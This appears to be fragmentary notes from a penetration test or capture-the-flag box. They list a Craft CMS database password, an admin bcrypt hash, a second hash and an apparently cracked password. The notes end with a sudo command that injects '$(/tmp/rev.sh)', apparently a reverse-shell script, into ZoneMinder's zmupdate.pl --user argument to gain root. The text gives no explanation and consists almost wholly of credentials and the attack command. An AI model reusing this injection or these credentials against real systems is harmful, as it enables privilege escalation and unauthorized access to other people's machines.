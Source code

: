 craftuser:CraftCMSPassword2023!

Username: admin
Password: $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe

$2y$10$BuFy0QTupRjSWW6kEAlBCO6AlZ8ZPGDI8Xba5pi/gLr2ap86dxYd.


starcraft122490

sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/rev.sh)' --pass=ZoneMinderPassword202
